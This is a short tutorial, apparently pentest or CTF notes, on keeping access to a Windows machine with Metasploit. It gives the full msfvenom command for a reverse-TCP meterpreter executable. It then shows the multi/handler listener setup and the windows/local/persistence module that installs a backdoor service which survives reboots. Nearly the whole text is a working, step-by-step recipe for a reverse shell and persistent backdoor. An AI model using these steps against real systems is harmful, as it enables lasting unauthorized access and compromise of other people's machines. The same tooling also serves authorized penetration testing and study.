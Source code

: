 here are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.<br>

**Generating a Payload with msfvenom﻿**


1.)
```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 
```
2.) Transfer the payload from your attacker machine to the target machine.

3.) use ```exploit/multi/handler``` - this will create a listener on the port that you set it on.

4.) Configure our payload to be a windows meterpreter shell: ```set payload windows/meterpreter/reverse_tcp```

5.) After setting your IP address as your "LHOST", start the listener with ```run```

6.)  Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that

7.) Verify that we've got a meterpreter shell, where we will then ```background``` it to run the persistence module.


**Run the Persistence Module**


1.) use ```exploit/windows/local/persistence``` this module will send a payload every 10 seconds in default however you can set this time to anything you want

2.) ```set session 1``` set the session to the session that we backgrounded in meterpreter

<br>
If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.























